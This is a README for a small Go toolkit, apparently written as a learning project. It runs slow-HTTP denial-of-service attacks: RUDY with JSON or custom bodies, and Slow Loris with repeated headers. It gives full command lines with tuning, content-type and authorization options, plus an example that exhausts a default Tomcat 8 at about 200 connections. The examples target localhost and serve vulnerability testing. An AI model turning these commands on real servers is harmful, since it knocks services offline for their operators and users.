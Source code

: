 # snacks

A small collection of tools for limited testing of common HTTP vulnerabilities.

Goals:
- Learn Go
- Learn about common HTTP attack vectors

### Clone
```bash
go get github.com/andrewflbarnes/snacks
# or
git clone git@github.com:andrewflbarnes/snacks
```

### Build
```bash
# local build
make
# local install
make install
```

### Run

##### Judy

Judy launches a RUDY (r-u-dead-yet) attack using JSON as the content-type over more typical
MIME types found in other implementations.

For a full list of options, defaults and what they do
```bash
snacks judy -h
```

Example:
```bash
snacks judy -size 1000000 -sd 10ms -sb 7 -vv localhost:8888/boom
```
The above command will
- send 1000000 arbitrary bytes to hold the connection open (not including HTTP POST headers)
- wait 10ms between sending each segment of bytes
- send 7 bytes in every segment (excluding the initial HTTP POST headers)
- set the path to `/boom` in the HTTP POST request and send to `localhost:8888`
- enable trace logging


##### Loris

Loris launches a Slow Loris attack by repeatedly sending a duplicate HTTP header every fixed time period.
At the moment this will always send the whole header, a `-sb`/SendBytes option is not currently available.

For a full list of options, defaults and what they do
```bash
snacks loris -h
```

Example:
```bash
snacks loris -size 1000000 -sd 1s -header "x-slow: loris" -vv localhost:8888/boom
```
The above command will
- send 1000000 repeat instances of the header (not most application servers limit the max. number of HTTP headers)
- wait 1s between sending each header
- set the header to be set to `x-slow: loris`
- set the path to `/boom` in the HTTP POST request and send to `localhost:8888`
- enable trace logging

### Useful judy options

##### Content type

If a specific content-type header is required use the `-type` flag. e.g.
```bash
snacks judy -type application/x-www-form-urlencoded ...
```

For supported content types this will set a default payload prefix which may be overridden with `-prefix`

To override a payload prefix use the `-prefix` flag. e.g. for a default JSON content-type (which would otherwise
default to using `{"a":"` as the payload prefix)
```bash
snacks judy -prefix '{"payload":"' ...
```

For custom content-types and prefix apyloads specify both `-type` and `-prefix` e.g.
```bash
snacks judy -type application/xml -prefix '<payload>' ...
snacks judy -type application/vnd.my.custom.type -prefix '1|string|payload|' ...
```

### Useful general options

##### Authorization

If authorization is required use either `-basic` or `-bearer` flags e.g.
```bash
snacks loris -basic tomcat:tomcat ...
snacks judy -bearer 0123456789ABCDEF ...
```

##### Arbitrary Headers

To arbitrarily set headers (inlcuding those which have specific options e.g. `-basic` and `-bearer` for `Authorization`)
use the `-headers` option. This takes a list of HTTP headers concatenated with double pipes `||`. e.g.
```bash
snacks judy -headers "Authorization: custom 0123456789||Connection: keep-alive" ...
```

Note: this option is not necessarily useful for slow loris attacks which don't typically allow for headers to be parsed
and validated.

### Examples

Tomcat 8 seems to be particularly susceptible to RUDY attacks in it's default configuration even using
the Http11NioProtocol. For example you can hit a management endpoint or an arbitrary path on a
springboot webapp:
```bash
# first terminal
snacks judy \
  -type application/x-www-form-urlencoded \
  -basic tomcat:tomcat \
  localhost:8888/manager/html/expire
#or
snacks judy \
  localhost:8888/mywebapp
  
# second terminal
while clear; do date; curl localhost:8888 -v; date; sleep 1; done
```

Loss of service occurs around 200 connections in. Perhaps unsuprisingly this matches with the max number
of threads Tomcat is configured to use by default.